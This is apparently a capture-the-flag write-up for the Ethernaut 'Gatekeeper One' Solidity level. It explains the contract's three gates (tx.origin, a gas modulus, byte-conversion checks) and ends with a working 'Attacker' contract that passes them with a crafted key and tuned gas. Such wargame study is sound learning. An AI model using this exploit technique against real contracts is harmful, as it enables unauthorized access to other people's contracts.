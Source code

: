 # 13. Gatekeeper One

Make it past the gatekeeper and register as an entrant to pass this level.

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## Vulnerability

This challenge is more about understanding solidity explicit conversion mechanism than a real vulnerability, given the code (or bytecode) we need to craft a custom `_gatekey` to pass the following checks:

### gateOne

```solidity
  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }
```

This check implies that we must use an intermediary (i.e. Smart contract) to call the target contract.

### gateTwo

```solidity
  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }
```

This check implies that at the moment of the require statement, we must have a multiple of 8191 as leftover gas.

### gateThree

```solidity
  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }
```

This check implies that :

- 1) The value of the last 4 bytes of `_gatekey` must equal the value of the last 2 bytes of `_gatekey`
- 2) The value of the last 4 bytes of `_gatekey` must not equal the value of the last 8 bytes of `_gatekey`
- 3) The value of the last 4 bytes of `_gatekey` must equal the last 2 bytes of `tx.origin`

## Solution

Assuming `tx.origin` equals : `0xE613c2d3D36A7934589BC393119eD33Ac165A596` and that we are sending 8 bytes.

According to 3) `_gatekey` last 4 bytes must be `0x0000A596`.

According to 2) At least one bit from the first 4 bytes of `_gatekey` must be set to 1.

According to 1) bytes 4 and 5 must be set to 0.

The following value fits the conditions : `0x010000000000A596`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {

    bytes8 gateKey = 0x010000000000A596;
    address targetContract;

    event myEvent(uint256);

    constructor(address _targetContract) {
        targetContract = _targetContract;
    }

    // Call this function at least 50K gas limit
    function attack() public {
        // 252 is the gas used to reach the GAS instruction in the target contract computed from .call
        // 2 is the cost of the GAS instruction (GAS returns remaining_gas - 2)
        // 10 * 8191 is just to ensure that enough gas is left for further execution 
        targetContract.call{gas: 10 * 8191 + 252 + 2}(abi.encodeWithSignature("enter(bytes8)", gateKey));
    }
    
}
```
